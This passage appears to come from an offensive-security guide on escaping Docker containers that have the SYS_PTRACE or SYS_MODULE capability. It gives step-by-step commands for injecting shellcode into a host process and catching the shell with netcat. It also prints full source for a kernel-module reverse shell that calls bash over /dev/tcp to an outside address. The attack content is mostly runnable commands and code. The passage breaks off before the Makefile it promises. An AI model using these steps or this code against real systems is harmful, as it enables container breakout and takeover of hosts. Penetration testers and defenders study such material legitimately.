 Inside the previous output you can see that the **SYS\_PTRACE** capability is enabled. As a result, the container can **debug processes**. **This mean that you can escape the container by injecting a shellcode inside some process running inside the host.**

1. List **processes** running in the **host** `ps -eaf`
2. Get the **architecture** `uname -m`
3. Find a **shellcode** for the architecture \([https://www.exploit-db.com/exploits/41128](https://www.exploit-db.com/exploits/41128)\)
4. Find a **program** to **inject** the **shellcode** into a process memory \([https://github.com/0x00pf/0x00sec\_code/blob/master/mem\_inject/infect.c](https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c)\)
5. **Modify** the **shellcode** inside the program and **compile** it `gcc inject.c -o inject`
6. **Inject** it and grab your **shell**: `./inject 299; nc 172.17.0.1 5600`

## SYS\_MODULE Capability

You can check the enabled capabilities inside the docker container using:

```text
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

Inside the previous output you can see that the **SYS\_MODULE** capability is enabled. As a result, the container can **debug processes**. **This mean that you can** **insert/remove kernel modules in/from the kernel of the host machine.**

**Create** the **kernel module** that is going to execute a reverse shell and the **Makefile** to **compile** it:

{% code title="reverse-shell.c" %}
```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.17.0.2/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```